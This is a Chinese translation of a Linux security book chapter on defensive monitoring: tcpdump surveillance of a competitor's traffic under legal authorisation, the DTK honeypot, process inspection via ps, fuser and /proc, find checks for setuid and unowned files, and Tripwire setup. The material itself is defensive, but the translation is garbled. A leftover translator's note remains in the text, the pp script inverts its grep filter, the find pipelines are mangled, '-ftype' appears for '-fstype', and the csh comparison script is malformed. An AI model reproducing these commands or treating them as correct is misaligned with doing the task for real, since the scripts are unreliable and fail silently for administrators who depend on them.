由于你的 `/etc/networks` 文件中包含条目：

```
pentacorp.com 192.168.0.0
```

你的三位工程师最近离职去了一家初创公司 `pieinsky.com`。大老板把你叫进办公室，把你介绍给公司律师，律师解释说怀疑存在“挖角”行为，即他们故意试图雇佣你公司的大量人员。他们希望对公司网络进行监控，以查找其他公司联系你员工的证据。你解释从技术上来说这很容易，但你希望确保对该请求没有误解，并获得书面保证，证明在你的司法管辖区内这是合法的。大老板交给你一份签有日期的备忘录，授权你进行监控，律师则提供了一份书面意见，证明所请求的行为是合法的。然后，你可以在防火墙上执行以下命令：

```
dig pieinsky.com
```

其输出包含这些 "A"（地址）记录。

```
; ANSWERS:
pieinsky.com. 41771 A 207.46.130.149
pieinsky.com. 41771 A 207.46.130.45
pieinsky.com. 41771 A 207.46.131.157
pieinsky.com. 41771 A 207.46.131.30
pieinsky.com. 41771 A 207.46.130.14
```

注意，你需要监控两个 C 类地址。以下命令应该能很好地完成这项任务：

```
tcpdump -l -i eth1 net 207.46.130.0/23 and \
'dst port 25 or dst port 80' \
> watch.log & tail +0 watch.log
```

使用 `-l` 标志表示行缓冲，以便在每行到达时都能看见，并使用 `-i` 标志指定连接到 Internet 的接口。由于它们拥有 C 类地址，使用 `/24` 只会选中其中一个，但由于它们拥有两个相邻的地址，只需通过使用 `/23` 来忽略最低位即可。你正在寻找它们使用你的 Web 服务器查找员工姓名、电子邮件地址和电话号码的行为。（你曾警告管理层不要将这些信息放在 Web 服务器上，但管理层说“为了方便客户”。）你也在寻找来自该公司的电子邮件。

在这种情况下，你可能不会将搜索限制在这两个端口。然而，将所有数据包信息存储在 `watch.log` 文件中以供法律顾问参考。他解释说，如果发现此类数据包，将在申请禁令动议中将其提交法庭。输出可能如下所示：

```
tcpdump: listening on eth1
14:35:08 x.pieinsky.com.1032 > www.pentacorp.com.www: S stuff
14:35:15 x.pieinsky.com.1032 > www.pentacorp.com.www: S stuff
14:35:38 x.pieinsky.com.1032 > www.pentacorp.com.www: P stuff

14:37:35 x.pieinsky.com.1033 > spam.pentacorp.com.smtp: P stuff
14:38:29 x.pieinsky.com.1033 > spam.pentacorp.com.smtp: . stuff

14:38:33 x.pieinsky.com.1033 > spam.pentacorp.com.smtp: P stuff
```

`x.pieinsky.com` 上的某人在端口 `1032` 进入，并使用 web 服务（端口 `80`）向你的 Web 服务器发出多次请求，这可能是在查看你的员工数据库。大约两分钟后，同一系统上的某人向你的公司发送了电子邮件，发送至名为 `spam` 的电子邮件服务器，使用 `smtp` 服务（端口 `25`）。注意，在目标系统和端口之后，有一些...

数据报中有些包含“p”，有些包含“.”。这一点可能非常重要，因为这是已设置的 TCP 状态位列表。在这个例子中，数据报设置了“p”位（PUSH），而有些数据报显示为点，这意味着 SYN、FIN、RST 或 PSH 均未设置。`tcp` 程序将使用此处状态位名称的第一个字符。这些状态位的名称以及一些常见攻击在《穿透防火墙》（第 71 页）中有讨论。这让你能够查找攻击者可能用于非法行为的协议违规情况。

### 8.14 使用欺骗工具包（DTK）监控扫描器

欺骗工具包（Deception Tool Kit，DTK）创建于 1998 年初。它提供了攻击者寻找但你并未在特定系统上运行，或仅在特定客户端系统上允许流行的服务的虚假版本。它会向攻击者提供虚假信息，浪费他们的时间，记录他们的入侵行为以便你处理，并将他们驱逐。它可以提供一个看似包含真实用户的虚假 `/etc/passwd` 文件。随后，攻击者可能会将其下载到他们自己的系统中，破解密码，并对破解后的密码无法使用而感到困惑。一些伪造服务在受到攻击时似乎会出现核心转储（core dump）。

DTK 的这种可选提供“有吸引力”服务的技巧通常被称为蜜罐（Honey Pot）。有时，一个站点会创建一个专门用于作为蜜罐的系统，将攻击者从运行应用程序的系统中引开。蜜罐会记录入侵者的行为，以了解其能力，提供采取行动的证据，并将其 IP 地址添加到被防火墙或类似软件阻止的列表中。

请记住，根据引诱原则（Entrapment），针对蜜罐的攻击可能并不构成对你的犯罪行为。因此，你需要在降低起诉能力与提高检测（从而保护）之间的风险之间取得平衡。（请选择提高检测和防护。）联邦调查局（FBI）确实曾表示，他们希望了解针对蜜罐的攻击，因为这些证据在判处被定罪攻击其他站点的攻击者时可能非常有价值。

DTK 的一个新功能是可以伪装成提供多种不同操作系统上的服务，例如 NT、各种 UNIX 和 Linux。DTK 由一个名为 `Generic.pl` 的 Perl 脚本驱动，该脚本作为状态机运行。状态机实际上只是一个带有编号状态的解析器，从 0 开始。`/dtk/default` 中的脚本针对特定的端口号构成了“机器”。它列出了一系列可能的预期用户输入，以及相应的输出和新的状态号。这使得它能够在与连接到特定服务（端口号）的攻击者进行可信的对话时表现出色。自定义这些脚本（机器）或为额外服务创建新脚本很容易。

它可选监听 DTK 的官方端口（`365`），作为对攻击者的警告，告知他们将被欺骗，以便他们节省时间并立即离开。仅凭这一警告，许多攻击者就会离开。它需要使用 TCP Wrappers，但 TCP Wrappers 现在是大多数发行版的标准配置。可以从创建者的站点下载 DTK：

```
http://all.net/dtk/
```


或者，可以从本书的配套光盘复制。在后一种情况下，它是压缩的，因此你需要对 `dtk.tar.gz` 文件运行 `gunzip`。以下构建说明假设你使用的是压缩版本。选择未使用的 UID 和 GID 用于新的用户和组 `dtk`。建议将这些 UID 和 GID 的一个范围用于隔离系统，如 DTK、named、ftpd 等。这降低了这些 UID 和 GID 被误用于其他目的并危及安全性的可能性。

> 默认情况下，DTK 以 root 身份运行。这是一个不必要的风险，尤其是对于脚本而言。此处提供的说明将以普通用户身份运行它，以增加“安全环层”（Rings of Security）。

```
使用 groupadd 创建普通组 dtk
使用 adduser 创建普通用户 dtk
umask 077
mkdir /dtk
chown dtk.dtk /dtk
su dtk
gunzip dtk.tar.gz
mkdir dtk-disk
cd dtk-disk
tar -xf ../dtk.tar
su
./Configure
```

`Configure` shell 脚本会向你询问一些问题，以引导其进行适当的安装。按 RETURN 是一个合理的回应。当提示输入“Which fully qualified出来”（此处原文疑似为 "Which fully qualified domain name" 或类似内容，翻译保留原意推测为域名相关）时，你应该输入你自己的。如果你没有指向你网络的自有域名，例如，如果你有一个系统或小型业务，其中 your.com 的 "A" 记录指向你的 ISP 或不存在，你可能希望指定你在 ISP 域名下的显示方式，例如：

```
you.users.earthlink.com
```

仔细选择此名称，因为它将被添加到许多文件中。当提示输入密码时，你可以输入一个要使用的密码。最好使用不同于 root 或其他账户的密码，因为它以纯文本形式存储在 `/dtk` 下。

现在有趣的部分开始了。使用你喜欢的编辑器，将 `/dtk/hosts.allow` 中的某些行复制到你实际的 `/etc/hosts.allow` 中。此文件允许服务请求你。你不希望伪造真实的服务，也不希望伪造 Cracker Trap 正在监听的服务。虽然可以通过从 `/etc/hosts.allow` 中分别调用它们，使 DTK 和 Cracker Trap 在同一端口上共存，但这可能没什么用。如果你将使用 Cracker Trap 来锁定他们，为什么要“先与他们共舞一会儿”呢？（你可以“共舞一次”然后锁定他们。）下面列出了部分提供的服务；查看 `/dtk/default` 中文件名开头的数字可以看到所有默认提供的服务。选择任何未“真实”运行的组合。

```
in.telnetd
httpd
in.pop3d
in.wrapd
portmap
```

查看 `/dtk/dtk.*` 文件，并将其中的适当行添加到 `/etc/hosts` 中的实际文件中。`/dtk/dtk.*` 中的条目令人困惑。以下内容已经过测试。这些行被添加到 `/etc/services`：

```
# DTK
dtk 365/tcp # Deception toolkit port
dtk 365/nupd # Deception toolkit port
wrapped 421/tcp # TCP wrappers attack deception
```

这些行被添加到 `/etc/inetd.conf`。

```
#DTK manually added entries
#These run under the "dtk" user, not "root"
pop-3 stream tcp nowait dtk /usr/sbin/none/in.pop3d
sunrpc stream tcp nowait dtk /usr/sbin/none/sunrpc
wrapped stream tcp nowait dtk /usr/sbin/none/in.wrapd
dtk stream tcp nowait dtk /usr/sbin/dtk/dtk
```

这些行被添加到 `/etc/hosts.allow`：

```
in.pop3d: all: twist /dtk/Generic.pl %a 110 %u unknown
sunrpc: all: twist /dtk/Generic.pl %a 111 %u unknown
in.wrapd: all: twist /dtk/Generic.pl %a 421 %u unknown
dtk: all: twist /dtk/Generic.pl %a 365 %u %d unknown
```

此时，你准备好启动 DTK 了。作为 root 使用以下命令执行：

```
killall -HUP inetd
```

TCP 服务很容易通过 telnet 进行测试，只需调用它并附加第二个参数，该参数为 `/etc/services` 中的数字端口号或其符号名称。这些 DTK 服务中的任何一个都会超时。超时值可配置，通常为 30 秒。要查看 dtk 服务在端口 365 上的行为，请使用此命令：

```
telnet yoursys.pentacorp.com dtk
```

如果你在运行 `Configure` 时选择了普通日志记录，`/dtk/log` 将包含所有客户端输入的命令以及其初始连接的条目。此外，`/dtk/IP` 将是每个尝试访问服务的客户端系统的唯一 IP 的日志文件。每个这些日志文件的名称都是点分十进制表示的数字 IP 地址，例如：

```
/dtk/log/192.168.43.184
```

`/dtk/README` 解释了 `/dtk/default` 下的状态描述文件的格式和用法。它解释了如何配置状态机，使某些 IP 地址获得真实服务，而其他地址获得欺骗服务。此外，它还解释了如何运行另一个进程，例如使用 Adaptive-TCP Wrappers 的 `blockip` 来锁定系统。

## 8.15 监控进程

几乎每个人都知道一些使用 `ps` 列出进程状态以查看系统上正在运行哪些程序的方法。典型的调用方式是

```
ps -axlw | more
```

了解这些值对于你系统上的守护程序和常用程序（如 Netscape）的典型情况是有用的。你也许可以将 `ps` 调用的输出存储到磁盘上。这可能使你能识别出攻击者是否因文件大小错误而安装了其中某个程序的木马版本。更好的检测技术在本书第四部分中讨论。我已学会经常检查 Netscape 的 RSS 值，因为它似乎存在内存泄漏，几天后可能会变得严重。

通常，过滤来自 `ps` `grep` 的输出以查找匹配特定 UID、程序名称或设备类型的进程是很有帮助的。以下脚本是我多年来最喜欢的轻松执行此操作的方法；感谢 David Barker 创建它。它被称为 `pp`。

```
/bin/echo \" UID PID PPID PRI NI SIZE RSS WCHAN STAT TTY TIME COMMAND\"; /bin/ps -axlww | /bin/grep -i $1 | /bin/grep -w 'grep' | /bin/grep -v -w 'pp' | /bin/more
```

若要让 `pp` 为指定的 PID（例如 1701）提供输出，可以发出以下命令：

```
pp 1701
```

除了 `ps`，`top` 程序也非常有用。它提供了最活跃进程的动态更新视图，对于发现异常操作往往非常有帮助。通过发出 "u" 命令并输入账户名称，可以将显示限制在单个账户的进程范围内。

`fuser` 程序将列出使用指定文件、文件系统或网络端口的进程。它可用于确定哪些进程正在对可疑文件执行 I/O 操作。（此前讨论的 `pp` 脚本可用于查找非常可疑进程的父进程。以下命令将列出当前打开 `/var/adm/messages` 的进程的 PID：

```
fuser /var/adm/messages
```

其输出看起来可能如下：

```
/var/adm/messages: 434
```

> 在过去，`fuser` 对于查看哪些进程在系统管理员想要卸载的文件系统上有打开的文件非常有用。要列出在 `/usr` 上有文件的进程，请使用以下命令：

```
fuser -m /usr
```

你可以使用我们的新 `pp` 脚本以如下方式识别此进程：

```
pp 434
```

典型输出将是：

```
F UID PID PPID PRI NI SIZE RSS WCHAN STAT TTY TIME COMMAND
040 0 434 1 0 0 1156 280 do_sel S ? 0:01 syslogd -m 0
```

但这是真正的 `syslogd` 还是位于其他目录中的黑客版本？`/proc` 系统可以被视为一把瑞士军刀。它可以用于其创建者从未想到的许多功能。

```
tr "\0" " " < /proc/434/cmdline; echo ''
syslogd -m 0
```

嗯，这并没有多大用处。现在，让我们来看看一些真正令人兴奋的东西。


```
ls -l /proc/434/exe
lrwx------ root root 0 May 7 7:49 /proc/434/exe -> /sbin/syslogd
```

你刚刚证明了该进程是通过调用`/sbin/syslogd`启动的。（这需要 2.2 或更高版本的内核。）请注意，这是可执行文件的完整路径名，无论它是如何被调用的。换句话说，它可能是通过`$PATH`找到的`syslogd`，甚至可能是通过以下方式调用的：

```
cd /sbin; ./syslogd
```

你确定吗？黑客可以将`/sbin/syslogd`移其他地方，在他的木马版本中放置该文件，调用它，然后将真正的文件移回去。这可以通过以下方式进行检查：

```
cmp /proc/434/exe /sbin/syslogd
```

最后，你可以对其中一个或两个文件调用`md5`，以查看它们是否具有预期的相同内容。（这假设`md5sum`、`shell`和内核未被破坏。）

该程序对于查看哪些进程正在使用特定的本地或远程端口，或者哪些进程连接到特定的远程系统也非常有用。要查看通过`telnet`的 22 端口连接的进程，请发出以下命令：

```
fuser -n tcp 22
```

要查看哪些进程连接到远程系统`www.jokesnotwork.com`，请输入以下命令：

```
fuser -n tcp ,www.jokesnotwork.com
```

要终止符合此特征的所有进程，请发出以下命令：

```
fuser -k -n tcp ,www.jokesnotwork.com
```

要查看连接到其他系统（而非你的系统）上`telnet`端口的进程，以下命令将显示这些信息：

```
fuser -n tcp ,:telnet
```

### 8.15.1 监控负载

如果系统的平均负载、网络响应时间、可用带宽或磁盘空间与其正常值相比发生显著变化，这种变化可能是问题存在的迹象。黑客往往试图获取权限而使用大量系统资源。他们使用这些资源来破解密码，执行`find`或`ls -LR`来研究你的系统，向你的系统下载工具以增加渗透能力（例如，从普通`root`权限提升），或上传数据和源代码。

他们可能正在编译他们的工具，或者在添加木马后重新编译你的内核。（关于向内核添加木马有多容易的有趣讨论，请参见第 551 页的"伯克利系统木马告解"。）他们可能在运行守护进程。除了`ps`及其相关程序，负载分析也很有帮助。许多系统管理员熟悉提供此信息的`uptime`程序，但从程序反复读取等效文件`/proc`效率更高。前三个字段是过去 1、5 和 15 分钟内准备就绪并等待运行的程序的平均数量。`load`程序将反复执行此操作并显示结果。`load`程序将通过 X 显示系统负载变化的图表。

```
cat /proc/loadavg
```

### Cron：监视黑客

`cron`设施对于定期执行系统管理员检测系统问题所需的各项分析非常有帮助。让它定期分析日志文件是一个极好的主意。以下`root` `crontab`是一个示例。（要使用此配置，你需要删除 "\" 和随后的换行符。）

```
0 9 * * * /bin/grep -v demuxprotrej:/var/adm/secure \
tail -500 | mailx -s \\
#research.pentacorp security report bob@pentacorp.com
```

在这种情况下，请忽略你不关心的`demuxprotrej:`警告。可以使用额外的`grep`命令来搜索或忽略其他项目。请记住，黑客也会类似地使用`crontabs`。黑客可以使用`crontab`定期调用木马。除非研究`crontab`，否则这很难检测，因为大多数时候没有恶意进程在运行。他甚至可以使用标准程序来执行此目的，这样搜索木马程序将一无所获。当然，这是`Tripwire`的工作。

一些站点使用`Caller ID`记录拨入其系统的每个人的电话号码以提高安全性。尽管呼叫者可以使其电话号码对`Caller ID`不可见，但你的反应是断开连接。那些为其调制解调器提供免费服务的站点可以通过`ANI`（自动号码识别）获取呼叫者的号码，这是无法被屏蔽的。对于拥有大量调制解调器的站点，这些日志可用于后续分析。`AOL`曾使用此技术帮助抓获一名主要黑客。

前面的章节探讨了持续监控系统问题的方法；而在这里，你设计定期扫描以发现问题。区别在于，某些事情可以持续进行，而不会带来显著的系统或人工开销。其他项目开销太大，无法持续进行。你可能有一些额外的想法会有帮助。当然，`Tripwire`非常有帮助，但在许多文件不断变化的系统中，由黑客引起的更改可能会迷失在预期的更改之中。

本章剩余部分涵盖的主题包括：

- 第 382 页的 "查找可疑文件"
- 第 386 页的 "Tripwire"
- 第 392 页的 "检测可执行文件"
- 第 393 页的 "检测混杂模式网络接口卡"
- 第 397 页的 "查找混杂模式进程"
- 第 398 页的 "自动检测被篡改的网页"

### 8.18 查找可疑文件

这里讨论使用`find`命令来查找黑客访问后经常遗留的可疑文件。他们这样做是为了让自己能够后来成为`root`或以其他方式造成麻烦，即使原始安全漏洞已修补。在第 53 页的 "查找问题" 中，介绍了如何使用`find`来捕获系统管理、用户或原始`Linux`发行版中的错误。虽然技术类似，但这里关注的是试图隐藏文件的黑客。

许多系统管理员会将这些`find`命令放入`root` `crontab`中。（如果你有`root` `crontab`调用脚本或程序，你需要非常确保该脚本及其包含的所有目录的权限能够阻止黑客运行其选择的另一个脚本。）虽然这无法捕获那些非常小心掩盖痕迹的黑客，但它将检测出大部分不彻底的黑客。要检测已更改的文件的 "800 磅大猩猩"（即最强大的工具），请参见第 386 页的 "Tripwire"。设置和使用它比本书中包含的任何其他工具都更难。

此时重读`find`的手册页可能有帮助。以下两个命令中的任何一个都可以用于打印相应的手册页；第一个适用于`lpr`程序理解`PostScript`的情况。

```
man find | lpr
man find | lpr
```

以下命令将查找`set-UID`和`set-GID`文件，并将详细信息存储在`want_su`中。请注意，你为每个文件生成列表和`MD5`校验和，以检测黑客对现有`set-UID/GID`文件内容的篡改。当然，如果黑客拥有`root`访问权限，他也可以修改系统以使所有这些测试都检测不到任何错误，但他必须先了解这些测试。

```
find / ! -fstype proc -perm +6000 -ls \
```

## 查找可疑文件

```bash
find / ! -ftype proc -perm +6000 \
-print | xargs -n 50 md5sum | \
sort > want_su
```

以下命令将查找这些`set-UID`和`set-GID`文件，并报告与上次搜索结果的差异：

```bash
find / ! -ftype proc -perm +6000 -ls | \
find / ! -ftype proc -perm +6000 \
-print | xargs -n 50 md5sum | \
sort | diff want_su - | \
Mail -s 'SU changed' admin@yoursite.com
```

此处使用的`diff`技术同样可以应用于下文描述或全书中提到的其他文件命令。为了简洁起见，示例中未展示此操作。

以下示例将显示所有用户可写文件。预计会看到`/tmp`以及其他几个目录和设备文件。

```bash
find / ! -ftype proc -perm -2 -type f -ls
```

文件名以点（"."）开头的文件不会被`ls`列出，而入侵者（`crackers`）通常会在文件名前加点来隐藏它们。如您所知，各种程序的启动脚本通常以点开头，这样在对用户主目录执行命令时，就不会产生过多令人感兴趣的输出。当然，`-a`标志会使`ls`也列出这些文件。您可以使用以下形式的`find`子句：

```bash
! -name ".profile" ! -name ".cshrc" ! -name ".login"
```

将其放在`-ls`或`-exec`操作子句之前，以忽略`shell`文件。这可能会让入侵者有机会在这些文件名中隐藏数据。即使仅在用户主目录中忽略它们也不完全安全，因为大多数用户只运行单一类型的`shell`：

```bash
find / ! -ftype proc '(' -name '.*' -o -name '[.]' ')' -ls
```


以下命令将查找那些数值 UID（所有者）不在 `/etc/passwd` 中，且数值 GID 不在 `/etc/group` 中的文件。这可能是某人合法地提取了 tar 归档文件，或者是因为删除用户后的清理工作不完整所致。此外，这也可能是入侵者提取了包含 Rootkit 或其他恶意工具的 tar 归档文件。之前的许多命令都会产生大量误报；发现的所有内容都应进行调查并予以纠正。

```bash
find / ! -ftype proc '(' -nouser -o -nogroup ')' -ls
```

### 8.18.1 分析可疑文件

当发现可疑文件时，对其进行一些分析是很有帮助的。不小心对二进制文件执行 `cat` 命令是很不愉快的。`file` 命令是源自遥远 UNIX 过去的另一项创新。对于不熟悉它的人，`file` 会对文件内容进行高级分析，以确定并报告它是什么类型的文件，而不管其名称或扩展名如何。

大多数二进制文件格式都以独特的字节序列开头，`file` 能够识别这些序列。文件格式的 ASCII 表被称为魔术（magic），通常位于 `/usr/share`，但有时也在 `/etc` 中。它包含数百种用于识别各种 shell 脚本、perl、awk 等的模式，以及几乎所有常用的二进制文件，甚至包括那些在 Linux 上不支持的文件。

对于其命令行上的每个文件（如果给定文件名为 `"-"`，则为标准输入），它将列出文件名及其对文件内容的分析。它不会泄露文件本身的内容，因此，如果有安全上的正当理由，通常不认为在用户目录树中运行它侵犯隐私。这种正当理由可能是搜索具有表明可疑活动迹象参数的文件，例如以点开头的文件名。

`file` 命令可以与 `find` 调用结合使用，以分析可疑文件。示例如下：

```bash
(find / ! -fstype proc -perm +6000 -ls; \
find / ! -fstype proc -perm +6000 \
-print | xargs -n 50 md5sum; \
find / ! -fstype proc -perm +6000 \
-print | xargs -n 50 file) | \
sort | diff want_su - | \
Mail -s 'SU changed' admin@yoursite.com
```

以及：

```bash
(find / ! -fstype proc '(' -nouser -o -nogroup ')' -ls; \
find / ! -fstype proc '(' -nouser -o -nogroup ')' \
-print | xargs -n 50 file) | \
Mail -s 'Unowned files' admin@yoursite.com
```

```bash
#!/bin/csh -f
umask 077
cd /etc
for i in *
if ( cmp -s $i /etc/$i )
then
    if ($status != 0)
    echo "different: $i" >> .tmp$$
fi
diff $i /etc/$i >> .tmp$$
echo "----------------" >> .tmp$$
endif
if (-f .tmp$$) then
  Mail -s 'NOT OK: /etc conf analysis' \
    root < .tmp$$
  /bin/rm .tmp$$
  exit 1
else
  echo "All ok"
  Mail -s 'ok: /etc conf analysis' root
  exit 0
endif
```

## 8.19 Tripwire

在 `/etc/passwd` 中，拥有 UID 为 0 的 Root 注释账户，以及一些变体，如 `"toor"` 和 `"root"` 条目。带有加号（`'+'`）的名称也很常见。这些通常出现在 `/etc/passwd` 的末尾或中间。在管理员（SysAdmin）尚未禁用 `rsh` 及其相关文件（如第 94 页“关闭 rsh、rpc、login 和 rexec”中所述）的系统中，或者当允许 `ssh` 使用这些文件时，`.rhosts` 和类似 `.rhosts` 的文件很受欢迎。对于 `/etc/hosts`、`/etc/hosts.allow` 和 `/etc/hosts.deny` 中的可疑条目，`sendmail` 使用的 `/etc/aliases` 文件也可以用于 root 权限提升，因为它可以被用来安排向特定名称发送电子邮件以触发以 root 身份执行任何程序来处理收件人的邮件。

`Tripwire` 是一个强大的工具，它计算系统中每个你希望监控篡改（木马、修改或删除的数据等）的文件的难以伪造的 MD5 校验和。这些包括 `/etc` 中的系统配置文件、`/bin` 和 `/usr/bin` 中的系统程序、应用程序以及用户账户。在任何后续时间，你可以要求 `Tripwire` 重新计算这些校验和，并告知你与之前计算基线相比的任何变化。通过了解系统中的使用模式，你可以轻松判断哪些更改后的文件可能是合法的（例如 `/home/joe/mbox`），哪些不是（例如 `/bin/su`）。在任何时候，你都可以要求 `Tripwire` 更新基线。通常，这是在分析差异并确定它们没问题之后进行的。

`SuSEauditdisk` 是 `Tripwire` 的一个开源替代方案，正在 `www.suse.de/~marc/` 开发中。也许当你读到本文时，它已经可用了。此外，Linux 版的 `Tripwire` 也是开源的。

你可以配置 `Tripwire` 将校验和数据（以及它本身）存储在软盘上。然后，你将软盘设置为只读以防止篡改，当然，还要安排 `cron` 定期检查结果并将其发送电子邮件给你。你可能希望这封电子邮件被发送到另一个抵抗篡改的系统，以防本系统被入侵。如果入侵者技术高超，并在你指示系统运行 `Tripwire` 时修改了你的 shell 或内核怎么办？系统将运行一个虚假的 `Tripwire`。因为是 Linux，如果你已经创建了一组救援磁盘，现在正是使用它们的好时机；《Linux 管理员指南》对此有解释。

救援磁盘是一组软盘，第一张是一个自包含的内核，第二张是一个根文件系统，会被复制到 RAMDISK 中，通常包含用于修复损坏根文件系统的工具。其主要目的是修复损坏严重到无法启动的硬盘根文件系统。

许多系统管理员没有利用创建自定义救援磁盘的便利性。其实创建起来相当简单。许多系统可以从 CD-ROM 启动，这也允许以这种方式使用。

我必须诚实地说。虽然 `Tripwire` 很强大，但我发现其文档具有误导性且不完整；至少它对不同标志如何使用的解释似乎是错误的，甚至对于最基本的操作也是如此，例如“确定哪些内容已更改并发送电子邮件给 root”。它甚至没有提到像“如果指定的文件不存在，你不能告诉 `Tripwire` 接受文件不存在的这种新状态是正常的；你必须更新策略文件”这样基本的东西。我发现许多标志的运行方式或交互方式与我对 Linux 或 UNIX 程序的预期不符。迄今为止，我发现它是 Linux 上最痛苦且最不愉快的程序。尽管如此，`Tripwire` 仍然可能有用。

### 8.19.1 安装 Tripwire

首先，下载最新免费版本（或购买商业版本）。在提供联系信息给 `Tripwire, Inc.` 之后，可以从以下站点下载免费版本。虽然此版本有一些限制，但该公司已在 GPL 下发布了 Linux 版的 `Tripwire` 源代码。由于美国的出口限制和许可证限制，它无法放在 CD-ROM 或网络上。请注意，你将只获得二进制文件。他们声称仅支持 Red Hat。它不需要 RPM，并且应该在其他发行版上也能工作。下载 `www.tripwire.com/downloads/` 后，你需要为此目的在一个新创建的空白目录中操作，例如 `tripwire`。

下载后，你的目录中会留下一个 gzip 压缩的 tar 文件。解压并提取它，通常使用：

```bash
gunzip Tripwire_221.tar.gz
tar -xovf Tripwire_221.tar
```

或者：

```bash
tar -xzovf Tripwire_221.tar.gz
```

作为 root，发出命令：

```bash
./install.sh
```

它将检查系统中所需的程序，例如 `tar` 和 `awk`，并接受它们。然后它会要求你阅读并接受许可证。你会被要求设置 `Tripwire` 密码短语。每个密码短语最多可以有 1024 个字符。`Tripwire` 不会拒绝容易被破解的密码。选择难以破解的好的密码，如第 35 页“密码——良好安全的关键点”中所述。在配置过程中，它会调用各种需要密码短语以确保安全的 `Tripwire` 程序，因此你会被要求多次重新输入密码短语。默认情况下，它在 `/usr/TSS` 下创建 `Tripwire` 系统。它会建议你检查并移除 `Tripwire` 配置文件的明文版本：

```bash
/usr/TSS/bin/twcfg.txt
```


然后，它突然建议你阅读发布说明并过得愉快。策略存储在`/usr/TSS/policies`下。`twpol.txt`文件控制 Tripwire 监视哪些文件以及对每个文件的预期。它的注释很详尽，以便理解指定日志文件的增长，并理解什么是设备文件。此时花些时间编辑此文件是个好主意。否则，稍后的替代方案将非常显著。使用以下命令安装文档：

# 18.1.2 使用 Tripwire

在编辑完`twpol.txt`文件后，是时候创建该文件的安全版本了。Tripwire 文档建议：“确保你所运行的系统完整性未受损。” 它进一步建议，操作系统（Linux）和应用程序文件应从原始介质（CD-ROM）安装，以获得干净的基线；也就是说，确保没有特洛伊木马。好吧，除非你想重新格式化磁盘并重新开始，否则为时已晚。然而，第 494 页的“使用 RPM 加速检查”讨论了如何使用 Red Hat 的 RPM 程序来验证已安装的软件包是否未遭篡改。

执行以下命令

```
cd /usr/TSS/bin
./twadmin --create-polfile ../policy/twpol.txt
```

以创建该文件在密码学上安全的版本。该版本经过密码学签名以防止篡改，并放置于`/usr/TSS/policy/tw.pol`。

现在，使用以下命令初始化数据库：

```
/tripwire --init
```

使用此命令测试电子邮件：

```
/tripwire --test --email root
```

要运行文件系统完整性检查（检查文件系统是否有变更），执行以下命令

```
/tripwire -m c
```

或

```
/tripwire --check
```

检查系统中的每个文件将花费几分钟时间，输出报告到标准输出，并将报告存储于`/usr/TSS/report/hostname-date.twr`。 随时都可以通过以下命令将此报告的一份副本生成到标准输出：

```
twprint --print-report -r ../report/report_file.twr
```

详细程度可以使用`-t`标志指定，该标志接受 0 到 4 之间的参数。 数字越大，细节越多。 以下内容可以作为 root 的 crontab 的良好条目，在你通常到达办公室（或当天负载高峰期）之前不久调用：

```
/tripwire -m c -r /usr/TSS/report/nightly.twr \
2>&1 mailx -s TRIPWIRE root
```

在早上审阅之后（如果除了通常的日志文件访问之外还有变更），你可以使用以下命令

```
/tripwire -m u -r /usr/TSS/report/nightly.twr
```

这将“弹出”编辑器，每个已更改的条目都有一个 `[x]` 标记，表示默认更新数据库以预期新修改的版本。 如果将 "x" 替换为空格，则该条目将不会更新数据库。 对于未经授权或需要进一步研究的更改，你会将 `[x]` 改为 `[ ]`。 如果你的配置未允许日志文件变更，那么这个“更新”报告使之前的“检查”变得多余。

可以通过以下方式生成方案和编码策略（规则）文件的文本版本：

```
/twadmin --printpolfile ../policy/policy.txt
```

如果 Tripwire 报告缺少文件，请从该文件中将它们删除。 然后使用此新策略更新默认策略：

```
/tripwire -m p --secure-mode low ../policy/policy.txt
```

`/bin/date`程序应该是模式 755。 如果执行命令

```
chmod 711 /bin/date
```

程序将被更改但未损坏。 随后的

```
/tripwire -m c
```

将在其报告中包含以下内容。

| 规则名称 | 严重级别 | 删除 | 修改 |
| --- | --- | --- | --- |
| * OS execs and libs | 100 | 0 | 0 | 1 |

修改：

"/bin/date"

注意，Tripwire 没有费心报告`/bin/date`文件改变了什么，尽管它知道。 即使我在上一节中的“单行程序”也提供了更有用的信息。

# 8.19.3 Tripwire 无法保护的内容

早期版本的 Tripwire 谈到将程序和数据库保存在只读介质上的必要性，以防止破解者篡改。 它现在自豪地声称，由于数据库和受信任文件经过密码学签名，这不再必要。 本作者不同意。 如果破解者足够复杂，能够通过“更新”数据库以避免注意到她的特洛伊木马来篡改 Tripwire 的数据库，她可能足够复杂以安装一个特洛伊木马版本的 Tripwire。 这个特洛伊木马版本可以在通常的地方提示系统管理员输入密码短语，然后继续修改数据库并重新签名，或假装没有任何更改。

非常复杂的破解者可以向 tripwire、`/bin/sh`甚至内核添加特洛伊木马。 使用 Tripwire 的标准用法（信任磁盘上的副本）不会检测到这种情况。 当你有理由认为复杂的破解者已经攻击，或者定期“以防万一”时，建议以下做法。 创建 Tripwire 专用救援盘。 引导救援盘并运行绝对受信任的 Tripwire 可执行文件和数据库。 显然，这个受信任的数据库必须定期更新，简单地从“常规”硬盘上的副本复制是不可接受的，因为那个副本不完全可信。

# 8.19.4 Tripwire 的替代品

Tripwire 有几个开源竞争对手。 AIDE 可以从`ftp://ftp.linux.hr/pub/aide/`下载。

当前版本是`aide-0.7.tar.gz`。

简要手册可从`www.cs.tut.fi/~rammer/aide/manual.html`获取。

如果你使用 CD-ROM 或`www.la-samhna.de/samhain.index.html`上的 samhain 文件完整性检查器，特洛伊木马没有一丝胜算。

此外，还有 Gog&Magog，可从`www.multimania.com/cparisel/gog/`下载，以及 Sentinel，它有一个漂亮的可选图形用户界面，位于`http://zurk.sourceforge.net/zfile.html`。

SuSeaudit 从可引导磁盘运行，提供非常安全的完整性检查。 它是 SuSE 的标准配置，可以轻松地移植到其他发行版。 从`www.suse.de/-marc/`下载。

# 8.20 检测可执行文件

破解者当然不希望你有他特洛伊木马的副本。 除了希望保持他的技术秘密之外，这可能成为证据，可能导致获取他正在使用的系统的 IP 地址。 破解者用来防止你“捕获”可执行文件的一种常见技术是简单地将其从磁盘上删除。 正如第 466 页“查找破解者的运行进程”中将要讨论的，将其从磁盘上删除不会终止已经运行的可执行文件。

从 2.2 内核开始，提供了一个从`/proc/PID/exe`到实际可执行文件的符号链接。 此外，它通过向名称追加“（deleted）”来指示可执行文件已从文件系统中删除！ 此示例显示了此类已删除的可执行文件的样子。

```
$ file /proc/519/exe
/proc/519/exe: broken symbolic link to /home/mr_ed/foo (deleted)
```

以下命令可以定期调用，可能从 cron 调用，以检测这些实例：

```
# file /proc/[0-9]*/exe|grep ‘(deleted)’
/proc/519/exe: broken symbolic link to /home/mr_ed/foo (deleted)
```

